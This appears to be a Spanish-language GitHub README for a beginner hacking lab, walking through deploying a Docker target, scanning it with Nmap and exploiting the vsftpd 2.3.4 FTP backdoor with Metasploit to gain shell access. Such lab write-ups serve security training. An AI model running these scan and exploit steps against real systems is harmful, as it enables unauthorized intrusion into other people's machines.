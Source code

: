 # Laboratorio 1: FirstHacking

## Descripción
Este laboratorio consiste en explotar una vulnerabilidad en un servidor FTP utilizando Metasploit. El objetivo es obtener acceso a la máquina objetivo y realizar un análisis de vulnerabilidades.

## Pasos para la resolución

1. **Instalación de Docker y descarga del laboratorio:**
   - Instalar Docker en Kali Linux: `sudo apt install docker.io -y`.
   - Descargar el laboratorio desde MEGA y descomprimirlo.
     
![image](https://github.com/user-attachments/assets/911ffc18-fca4-4c5b-bb3b-81180f980092)


2. **Despliegue del laboratorio:**
   - Ejecutar el comando: `sudo bash auto_deploy.sh firsthacking.tar`.
   - Desconectar el equipo de internet para evitar problemas de seguridad.

![image](https://github.com/user-attachments/assets/8419e866-a4fc-417d-8891-efb2078ca7de)


3. **Reconocimiento:**
   - Verificar la conectividad con la máquina objetivo: `ping 172.17.0.2`.
   - Escanear la máquina con Nmap: `sudo nmap -p- -sS -sV -sC --open --min-rate=5000 -n -Pn 172.17.0.2 -vvv`.
  
    ![image](https://github.com/user-attachments/assets/8b8170ed-1f84-467a-8289-38e7e3879815)


4. **Explotación:**
   - Iniciar Metasploit: `msfconsole`.
   - Buscar el exploit para vsftpd 2.3.4: `search vsftpd 2.3.4`.
   - Seleccionar el exploit: `use 0`.
   - Configurar el exploit: `set RHOSTS 172.17.0.2`.
   - Ejecutar el exploit: `run`.

![image](https://github.com/user-attachments/assets/c7f088ea-aad3-4a5d-824a-daa2c93646a4)

![image](https://github.com/user-attachments/assets/9cd9a02b-30f6-4e97-bebc-a88937232520)

![image](https://github.com/user-attachments/assets/b1b9ae2d-703d-444e-981b-4b5f04dc941e)

![image](https://github.com/user-attachments/assets/b270daa2-355a-49a7-872a-1caa916878d5)v


5. **Post-explotación:**
   - Verificar el usuario actual: `whoami`.
   - Finalizar el laboratorio con `Ctrl + C`.

![image](https://github.com/user-attachments/assets/1fd37098-1270-4eb8-bfa2-25171c2afc3e)

## Conclusión
Se logró explotar con éxito la vulnerabilidad en el servidor FTP y obtener acceso a la máquina objetivo.
